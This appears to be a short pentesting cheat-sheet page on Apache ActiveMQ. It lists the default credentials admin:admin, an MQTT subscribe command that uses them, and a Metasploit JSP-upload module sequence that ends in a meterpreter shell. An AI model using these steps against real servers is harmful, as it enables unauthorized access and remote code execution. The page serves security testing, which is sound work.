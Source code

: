 ```yaml
---
title: Apache ActiveMQ Pentesting
description: Apache ActiveMQ is a message broker written in Java together with a full Java Message Service client.
tags:
    - Web
refs:
date: 2023-02-23
draft: false
---
```


## Default Credentials

```bash
admin:admin
```

<br />

## Interaction with MQTT

If the MQTT server is running on the target system, we can subscribe/publish to a topic in ActiveMQ using MQTT client.

### Subscribe to a Topic

```bash
# -h: Host
# -t: Topic name
# -V: MQTT protocol version (5, 31, 311)
mosquitto_sub -h example.com -u admin -P admin -t 'example/topic' -V 31
```

<br />

## Web Shell by File Upload JSP

ActiveMQ is vulnerable to web shell via file upload an arbitrary JSP file.

```bash
msfconsole
msf> use exploit/multi/http/apache_activemq_upload_jsp
msf> set ...
msf> run
meterpreter> shell
```
